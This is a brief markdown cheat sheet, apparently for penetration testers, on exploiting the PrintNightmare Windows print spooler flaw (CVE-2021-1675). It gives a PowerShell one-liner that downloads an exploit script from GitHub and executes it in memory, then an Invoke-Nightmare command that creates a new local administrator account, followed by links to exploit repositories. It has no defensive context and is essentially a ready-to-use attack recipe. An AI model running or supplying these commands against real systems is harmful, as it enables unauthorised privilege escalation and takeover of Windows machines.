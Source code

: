### download exploit
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1'))
```

### add new user (localAdmin)
```
Invoke-Nightmare -NewUser <user> -NewPassword "<password>" -Drivername "<name>"
```

### References
https://github.com/calebstewart/CVE-2021-1675  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpPrintNightmare.ps1  
https://github.com/cube0x0/CVE-2021-1675  

